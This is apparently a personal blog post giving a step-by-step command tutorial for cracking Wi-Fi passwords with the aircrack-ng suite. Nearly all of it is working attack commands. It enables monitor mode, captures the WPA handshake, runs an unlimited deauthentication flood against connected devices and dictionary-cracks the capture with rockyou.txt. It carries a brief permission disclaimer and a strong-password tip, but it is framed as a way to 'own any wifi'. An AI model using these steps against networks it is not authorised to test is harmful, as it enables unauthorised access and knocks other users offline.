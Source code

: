 ```yaml
---
title: 'Wifi Password cracking'
date: 'July 8, 2022'
excerpt: 'This blog will help you to crack wifi password using airmon-ng.'
cover_image: '/images/posts/img1.jpg'
---
```


# Wifi Password Cracking with airmon-ng.

>This blog will help you to crack wifi password using airmon-ng.

>Disclaimer: Use this cracking method only if you own the wifi or you have permission to crack. Don't use it illegal.

>The following instruction will lead you to own any wifi (only if the password is available on wordlist).            
---
---
## Tools needed: 
* kali-linux
* airmon-ng
* airodump-ng
* aireplay-ng
* aircrack-ng

Commands for installing required packages :
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install airmon-ng airodump-ng aireplay-ng aircrack-ng
```

To kill all processes and wifi will also be disabled :
```bash
sudo airmon-ng check kill
```

To start wifi module :
```bash
sudo airmon-ng start wlan0 
```

 To start wifi into monitoring mode for capturing packets :
```bash
sudo airmon-ng start wlan0mon
```
This command is only for checking whether wifi is in monitoring mode wlan0mon :
```bash
iwconfig 
```
Shows the details of wifi networks available nearby :
```bash
sudo airodump-ng wlan0mon 
ctrl+c (stops capturing)
``` 
*copy the bssid and channel of wifi, which you want to get into.*

This command will show you one particular wifi network, you have to paste the channel no. and bssid of the particular wifi :
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon
```

The next instruction will help you to capture the 4-way handshake.
You have to specify any name in which the .cap captured flag will be saved
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon -w <name of the output file>
ctrl+c (stop capturing only after getting the 4-way handshake)
```

Now open another terminal (terminal 2) and run the following command for deauthenticating the devices connected to the wifi 
```bash
sudo aireplay-ng --deauth 0 -a <bssid> wlan0mon
```
(this command will deauthenticate/disconnect the already connected devices to that wifi. So that we can get the 4-way handshake)

**now the 4-way handshake will be saved in terminal 1**

```bash
ctrl+c (stop capturing only after getting the 4-way handshake)
```

*the captured file will be saved as .cap file in you directory*

This command stops monitoring mode :
```bash
sudo airmon-ng stop wlan0mon 
```

Restart your wifi module :
```bash
sudo service network-manager start 
```

Start cracking your password :
*(you have to specify the name of your .cap file and full path to the wordlist)*
```bash
aircrack-ng <name of the .cap file> -w /usr/share/wordlists/rockyou.txt
```



>It will start cracking the password. This attack is known as bruteforce attack or dictionary attack.

>Password will be cracked only if the password is available on the wordlist you are specifying.

>Save your wifi by having a strong password.
